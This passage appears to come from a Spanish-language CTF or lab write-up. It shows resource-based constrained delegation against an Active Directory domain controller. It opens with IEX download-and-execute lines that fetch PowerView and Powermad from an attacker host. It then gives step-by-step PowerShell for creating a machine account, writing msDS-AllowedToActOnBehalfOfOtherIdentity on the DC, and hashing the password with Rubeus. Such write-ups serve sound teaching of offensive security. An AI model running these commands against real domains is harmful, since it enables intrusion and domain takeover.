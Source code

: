 ```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.92:8000/PowerView.ps1')
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.92:8000/Powermad.ps1')
```

Ya estarían cargadas las funciones de cada script en nuestro entorno de trabajo, la tarea es averiguar como subir `Rubeus.exe` (:

...

1️⃣ Creamos computador (esta es la única función de **Powermad**, las demás son de **PowerView**):

```powershell
New-MachineAccount -MachineAccount esteesminuevopc -Password $(ConvertTo-SecureString 'esta3sl@pass' -AsPlainText -Force)
```

2️⃣ Extraemos el identificador (Security Identifier (SID)) de la máquina creada:

```powershell
$ComputerSid = Get-DomainComputer esteesminuevopc -Properties objectsid | Select -Expand objectsid
```

3️⃣ Necesitamos crear una **entrada** de acceso genérica (**ACE**) para asignar permisos sobre el nuevo computador, así mismo extraeremos los bytes de ese **entry**:

* [DACLs and ACEs](https://docs.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces)

---

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

4️⃣ Configuramos el campo `msDS-AllowedToActOnBehalfOfOtherIdentity` en el computador objetivo (o sea, el **DC**) para que nuestro computador pueda actuar como él, ya que le pasaremos los **bytes** extraídos:

```powershell
Get-DomainComputer dc | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes}
```

5️⃣ Usaremos **Rubeus.exe** para generar un hash con el algoritmo [RC4_HMAC](https://docs.digicert.com/es/certificate-tools/discovery-user-guide/tlsssl-endpoint-vulnerabilities/rc4-cipher-enabled/) que usaremos ahorita:

```powershell
.\Rubeus.exe hash /password:esta3sl@pass
```

```bash
# alternativa
❱ python3
```

```python3
>>> import hashlib
>>> print(hashlib.new('md4', 'esta3sl@pass'.encode('utf-16le')).hexdigest())
```
